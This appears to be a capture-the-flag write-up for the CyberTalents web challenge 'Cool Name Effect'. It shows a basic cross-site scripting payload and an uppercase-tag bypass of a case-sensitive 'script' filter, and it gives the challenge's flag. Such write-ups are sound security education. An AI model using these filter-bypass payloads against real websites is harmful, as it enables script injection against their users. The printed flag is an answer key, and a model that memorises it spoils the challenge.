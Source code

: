# CyberTalents
## Web Security

### Challenge Name:
 [*Cool Name Effect*](https://cybertalents.com/challenges/web/cool-name-effect)
 
### Challenge Description
Webmaster developed a simple script to do cool effects on your name, but his code not filtering the inputs correctly execute javascript alert and prove it.


Link: [http://34.77.37.110/cool-effect/](http://34.77.37.110/cool-effect/)

### Answer
* Try inject javascript code in the textbox
```
<script>alert()</script>
```
* The result was "<forbidden>alert()" which mean he filtered "script" so try in another word
 
```
<SCRIPT>alert()</SCRIPT>
```
 
* You got the Flag!!


### The Flag
 > ciyypjz
